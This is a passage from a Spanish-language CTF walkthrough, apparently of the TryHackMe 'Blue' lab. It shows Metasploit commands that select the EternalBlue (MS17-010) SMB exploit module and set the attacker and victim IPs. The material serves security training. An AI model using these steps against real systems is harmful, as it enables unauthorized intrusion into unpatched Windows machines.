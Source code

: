 ![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-11-15-Blue-TryHackMe/5.png)

Posteriormente elegiremos el _exploit_ a utilizar; de hecho, una de las preguntas de la plataforma justamente es, introducir el _exploit_ que vamos a utilizar.

```      
use exploit/windows/smb/ms17_010_eternalblue
```  

Una vez hemos seleccionado el _exploit_, procederemos a configurar tanto el `LHOST` como el `RHOST`, que dicho de otra forma, procederemos a introducir nuestra _IP_, y la _IP_ de la máquina víctima.

```      
show options
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-11-15-Blue-TryHackMe/6.png)

```      
set LHOST <nuestra IP> 
set RHOST <IP víctima>
```
